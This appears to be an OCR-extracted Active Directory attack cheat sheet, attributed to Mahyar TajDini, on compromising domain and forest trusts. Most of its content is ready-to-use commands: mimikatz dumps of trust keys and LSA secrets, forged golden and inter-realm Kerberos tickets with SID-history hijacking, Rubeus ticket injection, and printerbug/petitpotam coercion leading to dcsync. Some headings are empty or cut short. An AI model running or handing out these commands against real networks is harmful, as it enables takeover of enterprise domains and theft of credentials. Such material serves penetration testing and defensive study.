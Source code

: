 ### CVE-2021-36934 (HiveNightmare/SeriousSAM)

### ...

## Trust relationship

### Child Domain to Forest Compromise - SID Hijacking

- Get-NetGroup -Domain <domain> -GroupName "Enterprise Admins" -FullData|select objectsid

	- mimikatz lsadump::trust

		- kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID-519> /ptt


### Forest to Forest Compromise - Trust Ticket

- "lsadump::trust /patch"
"lsadump::lsa /patch"

	- "kerberos::golden /user:Administrator /domain:<domain> /sid:  
<domain_SID> /rc4:<trust_key> /service:krbtgt /target:<target_domain> /ticket:
<golden_ticket_path>"

		- .\Rubeus.exe asktgs /ticket:<kirbi file> /service:"Service's SPN" /ptt


### Breaking forest trust

- printerbug or petitpotam to force the DC of the external forest to connect on a local unconstrained delegation machine. Capture TGT, inject into memory and dcsync

## PowerView  

## Bloodhound

## Mahyar TajDini

### Mahyar@TajDini.net

### Github.com/mahyarx

### Linkedin.com/in/mahyartajdini

### TajDini.net

